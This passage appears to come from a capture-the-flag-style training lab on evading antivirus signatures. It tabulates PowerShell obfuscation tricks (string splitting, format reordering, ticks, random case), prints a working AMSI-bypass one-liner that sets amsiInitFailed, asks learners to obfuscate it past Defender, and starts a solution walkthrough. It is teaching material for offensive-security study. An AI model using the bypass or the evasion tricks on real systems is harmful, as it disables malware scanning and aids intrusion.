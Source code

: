 ![task4-arrow](./images/task4-arrow.png)

If the second code block were to be scanned with the Yara rule, there would be no alerts!

Extending from concatenation, attackers can also use **non-interpreted characters** to disrupt or confuse a static signature. These can be used independently or with concatenation, depending on the strength/implementation of the signature. Below is a table of some common non-interpreted characters that we can leverage.

|Character|Purpose|Example|
|---------|-------|-------|
|Breaks|Break a single string into multiple sub strings and combine them|`('co'+'ffe'+'e')`|
|Reorders|Reorder a string’s components|`('{1}{0}'-f'ffee','co')`|
|Whitespace|Include white space that is not interpreted|`.( 'Ne' +'w-Ob' + 'ject')`|
|Ticks|Include ticks that are not interpreted|`d`own`LoAd`Stri`ng`|
|Random Case|Tokens are generally not case sensitive and can be any arbitrary case|`dOwnLoAdsTRing`|

Using the knowledge you have accrued throughout this task, obfuscate the following PowerShell snippet until it evades Defender’s detections.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

To get you started, we recommend breaking up each section of the code and observe how it interacts or is detected. You can then break the signature present in the independent section and add another section to it until you have a clean snippet.

Once you think your snippet is sufficiently obfuscated, submit it to the webserver at http://MACHINE_IP ; if successful a flag will appear in a pop-up.

If you are still stuck we have provided a walkthrough of the solution below.

### Solution Walkthrough

To begin trying to clean this code snippet we need to break it down and understand where the alerts are originating.
We can break the snippet where each cmdlet is present (GetField, SetValue)

1. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')`
2. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static')`
3. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`
